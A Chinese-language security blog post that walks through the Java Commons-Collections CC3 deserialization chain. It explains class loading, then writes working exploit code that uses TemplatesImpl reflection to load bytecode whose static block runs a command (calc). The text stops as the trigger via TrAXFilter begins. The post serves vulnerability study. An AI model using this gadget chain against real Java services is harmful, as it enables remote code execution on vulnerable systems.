---
title: "Java反序列化CC3链"
date: 2025-06-18T11:22:38+08:00
summary: "Java反序列化CC3链"
url: "/posts/Java反序列化CC3链/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 回顾

前面分别学习了CC1和CC6利用反射触发Runtime.getRuntime().exec()去执行命令的，但是往往很多时候代码中的黑名单都会选择禁用Runtime，此时又该怎么做呢？

CC3链就是一种很好的解决方法，他不借助Runtime类中的exec去执行命令，而是**利用类加载机制，动态加载恶意类来实现自动执行恶意类代码**

# 0x01类加载机制

参考文章：[Java基础篇-类加载机制](https://www.cnblogs.com/1vxyz/p/17245206.html)

在了解类加载机制之前，我们首先要知道java文件的编译的过程

## java文件的编译

Java文件编译过程主要包括两个阶段，第一阶段是在编译阶段编译成Java字节码的过程，在书中常常被叫做前端编译器，例如我们最熟悉的javac编译器；第二阶段（可选）就是在运行的时候，通过JVM的编译优化组件，对代码中的部分代码编译成本地代码，也就是JIT编译，例如HotSpot中的C1、C2编译器，这里我借助ai对整个编译过程进行展示



我们分别介绍：

- 词法分析：将源代码字符流分解成有意义的词法单元，也就是Tokens流。具体的过程：

1. 读取`.java`文件字符流
2. 识别关键字（`class`, `public`等）、标识符（类名、变量名）、运算符、字面量等

- 语法分析：根据Java语法规则构建抽象语法树（AST）。具体的过程：

1. 检查Token序列是否符合Java语法
2. 构建树状结构表示代码的层次关系

- 注解处理：作用是处理源代码中的注解（例如重写方法的@Override），具体的过程：

1. 执行自定义注解处理器
2. 可能生成新的源代码（如Lombok生成getter/setter）
3. 循环处理直到无新文件生成

- 生成字节码并写入.class文件：将AST语法树转化成JVM指令后写入文件

## 类加载过程

**Class 文件需要加载到虚拟机中之后才能运行和使用，如果在原先并没有发现类的话则会启用类加载器去加载类并使用**

系统加载 Class 类型的文件主要三步：**加载->连接->初始化**。连接过程又可分为三步：**验证->准备->解析**。

- 加载：



类加载的过程主要会完成三件事：

- 通过全限定名获取定义此类的二进制字节流。
- 将字节流所代表的静态存储结构转换为方法区的运行时数据结构。
- 在堆中生成`java.lang.Class`对象

加载主要是靠我们的类加载器去完成的，类加载器有很多种，当我们想要加载一个类的时候，具体是哪个类加载器加载由 **双亲委派模型** 决定。并且每个Java类都会有一个引用指向加载它的ClassLoader

双亲委派机制类加载访问流程：

ClassLoader —-> SecureClassLoader —> URLClassLoader —-> APPClassLoader —-> loadClass() —-> findClass()

- 验证：这里的话主要是为了确保Class文件中的字节流信息符合规范，保证这些信息被当作代码运行后不会损害到Java虚拟机的安全

1. 文件格式验证（Class 文件格式检查）
2. 元数据验证（字节码语义检查）
3. 字节码验证（程序语义检查）
4. 符号引用验证（类的正确性检查）

- 准备：这个阶段是**正式为类变量分配内存并设置类变量初始值的阶段**，这些内存都将在方法区中分配

需要注意的是：这时候进行的内存分配仅仅包括类变量，也就是静态变量（static关键字修饰的变量）

- 解析：此过程**是虚拟机将常量池内的符号引用替换为直接引用的过程**，主要是解析类/接口、字段、方法等引用

举个例子：在程序执行方法的时候，系统需要明确知道这个方法所在的位置，而Java虚拟机会为每个类都准备一个方法表来存放类中所有的方法。所以当我们需要调用一个类的方法的时候，只要知道这个方法在方法表中的位置（即偏移量）就可以直接调用该方法了。通过解析符号引用就可以直接转化成目标方法在类中方法表的位置，从而使得该方法被调用

- 初始化：执行类构造器`<clinit>()`方法、按代码顺序初始化静态变量、执行静态代码块
- 类卸载：GC回收机制，这个很简单

其实从上面的分析中我们不难看出，在类加载过程的初始化步骤中会执行静态代码块，**java的类加载机制，可以让类初始化时，会执行static静态区里的代码**，这也给了我们一线生机，例如我们这里拿URLClassLoader类加载器测试一下

首先写一个恶意类

```java
package CC3;

import java.io.IOException;

public class URLClassLoader_test {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }
}
```

然后用javac编译生成.class文件`javac URLClassLoader_test.java`

然后我们写一个动态加载类

```java
package CC3;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URLClassLoader;
import java.net.URL;

public class URLClassLoader_load_class {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException{

        //URLClassLoader加载器需要传入一个url加载类
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[] {new URL("file:E:\\java\\JavaSec\\CC1\\src\\main\\POC\\")});
        Class<?> c = urlClassLoader.loadClass("CC3.URLClassLoader_test");
        c.newInstance();
    }
}
```

这里的话通过URLClassLoader加载器去动态加载类并初始化类对象，这里在初始化的时候执行了static静态区里面的代码，从而执行恶意命令



# 0x02 影响版本

- jdk8u65
- Commons-Collections <= 3.2.1

# 0x03 链子分析

前面介绍了类加载机制的基础知识，我们这里还需要介绍一个点：

当 ClassLoader 加载一个类时,它会调用自身的 defineClass() 方法来将类的字节码转换为 Class 对象，这也是我们的入手点



需要注意一点

此时的 `defineClass()` 方法是有局限性的，因为它只是加载类，并不执行类。若需要执行，则需要先进行 `newInstance()` 的实例化。



并且此时是defineClass是protected类型的，并不是我们预期的利用方法，我们尝试寻找一下public属性的defineClass()方法

然后在 `TemplatesImpl` 类的 `static final class TransletClassLoader extends ClassLoader` 中找到了我们能够运用的类。

## TemplatesImpl#defineClass()



我们可以看到这个内部类继承了ClassLoader并且重写了defineClass方法，这里的话并没有写明是什么类型的方法，所以默认为default类型，可以在类中被调用，我们跟进一下这个方法的用法

## TemplatesImpl#defineTransletClasses()

在defineTransletClasses()方法下发现了这个方法被调用了



但是这个方法是private类型的，我们看看这个方法有没有被其他调用

## TemplatesImpl#getTransletInstance()

在`getTransletInstance()` 方法中



可以看到这里调用了defineTransletClasses()方法，前提是`_name`不为null并且`_class`为null

从defineClass()方法到defineTransletClasses()方法再到getTransletInstance()方法，其实都是在同一个类TemplatesImpl中，并且在getTransletInstance()方法中还有一个newInstance()实例化的过程，所以如果能走完这个方法，就可以动态调用恶意类中的静态方法，但是该类还是私有的，还得继续找该类的用法

## TemplatesImpl#newTransformer()

在newTransformer()方法中



有调用getTransletInstance()方法，并且该方法还是public属性类型的，所以我们就可以直接用了

## POC链子

```java
TemplatesImpl::newTransformer()->
    TemplatesImpl::getTransletInstance()->
        TemplatesImpl::defineTransletClasses()->
            TemplatesImpl::defineClass()->
                恶意类代码执行
```

# 0x04问题的解决

我们写个demo来走一下调试

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;

public class CC3 {
    public static void main(String[] args) {
        TemplatesImpl templates = new TemplatesImpl();
        templates.newTransformer();

    }
}
```

打上断点进行debug



此时会进入486行代码，实例化一个对象并调用getTransletInstance()方法，接下来我们进入getTransletInstance()方法

## 问题一：getTransletInstance()方法中的问题



这里有两层if语句才会执行defineTransletClasses()方法，一个是`_name`不能为null，一个是`_class`为null，我们看看这两个属性



是私有属性的变量，那我们可以通过反射去修改他们的值，我们看看构造方法

```java
    protected TemplatesImpl(byte[][] bytecodes, String transletName,
        Properties outputProperties, int indentNumber,
        TransformerFactoryImpl tfactory)
    {
        _bytecodes = bytecodes;
        init(transletName, outputProperties, indentNumber, tfactory);
    }
```

并没有对这两个变量进行赋初值操作，那我们正常用反射给`_name`一个String类型的值就行了

改一下demo

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, TransformerConfigurationException {
        TemplatesImpl templates = new TemplatesImpl();
        Class<?> c = templates.getClass();
        
        //给_name进行赋值，让_name不为null
        Field _name = c.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(templates,"a");
        
        templates.newTransformer();

    }
}

```

此时就可以通过两个if进入defineTransletClasses()方法了



## 问题二：defineTransletClasses()方法中的问题

当我们继续程序的时候就会发现此时出现了一个异常



其实是因为我们没有对`_bytecodes`进行赋值导致的

往下看可以看到



这里可以看到，在definClass方法的调用中`_bytecodes`变量是作为一个一维数组传入的，也就是我们需要执行的代码，但是在该变量的声明时

```java
private byte[][] _bytecodes = null;
```

这里声明的是二维数组，并且`_bytecodes[i]`是我们需要放入的恶意字节码，那我们修改刚刚的值为我们之前test测试时候的恶意类

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, TransformerConfigurationException {
        TemplatesImpl templates = new TemplatesImpl();
        Class<?> c = templates.getClass();

        //给_name进行赋值
        Field _name = c.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(templates,"a");
        
        //给_bytecodes赋值
        Field _bytecodes = c.getDeclaredField("_bytecodes");
        _bytecodes.setAccessible(true);
        byte[] evilCode = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\src\\main\\POC\\CC3\\URLClassLoader_test.class"));//字节码文件的位置
        byte[][] codes = {evilCode};
        _bytecodes.set(templates,codes);
        templates.newTransformer();

    }
}

```

运行后又发生了报错

```java
Exception in thread "main" java.lang.NullPointerException
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl$1.run(Unknown Source)
	at java.security.AccessController.doPrivileged(Native Method)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.defineTransletClasses(Unknown Source)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(Unknown Source)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(Unknown Source)
	at CC3.CC3.main(CC3.java:25)
```

因为 **`TemplatesImpl` 在加载字节码时缺少必要的字段初始化**，通常是由于 `_tfactory` 未正确设置导致的。

这个变量有一个修饰符叫transient，代表着这个属性是不能被序列化的，意思是反序列化不能给它赋值。



我们跟进看一下`_tfactory`的初始值，发现是null，难怪呢，这里没有调用到getExternalExtensionsMap()



我们跟进getExternalExtensionsMap()方法，发现该方法是属于TransformerFactoryImpl类的，试试能不能给`_tfactory`变量赋值为该类的实例化对象

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, TransformerConfigurationException {
        TemplatesImpl templates = new TemplatesImpl();
        
        //反射修改类的属性_name，_name不为null
        setFieldValue(templates,"_name","a");
        
        //给_bytecodes赋值为需要执行的字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);
        
        //反射修改类的属性_tfactory
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```

我这里把重复的功能重新写个函数了，这样方便些

但是运行后又出现新的报错

```java
Exception in thread "main" javax.xml.transform.TransformerConfigurationException: 无法加载 translet 类 'a'。
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.defineTransletClasses(Unknown Source)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(Unknown Source)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(Unknown Source)
	at CC3.CC3.main(CC3.java:33)
```

这里的话简单来说就是需要我们的**字节码必须是 `Translet` 子类**，我们的恶意类必须直接或间接继承**`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`**，那我们在里面调整一下



因为AbstractTranslet是抽象类，所以我们要实现它所有的抽象方法。

```java
    public abstract void transform(DOM document, DTMAxisIterator iterator,
                                   SerializationHandler handler)
        throws TransletException;
```

修改之后的恶意类

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class URLClassLoader_test extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后我们运行一下就可以出来了



# 链子分析衔接1

其实这个链子有两条路可以走，一个就是寻找如何触发newTransformer（EXP1），另一个就是直接调用newTransformer()方法（EXP2）

然后我们接下来看看怎么触发**TemplatesImpl.newTransformer()**，查找一下用法

## CC3如何触发newTransformer()

### TrAXFilter#TrAXFilter()

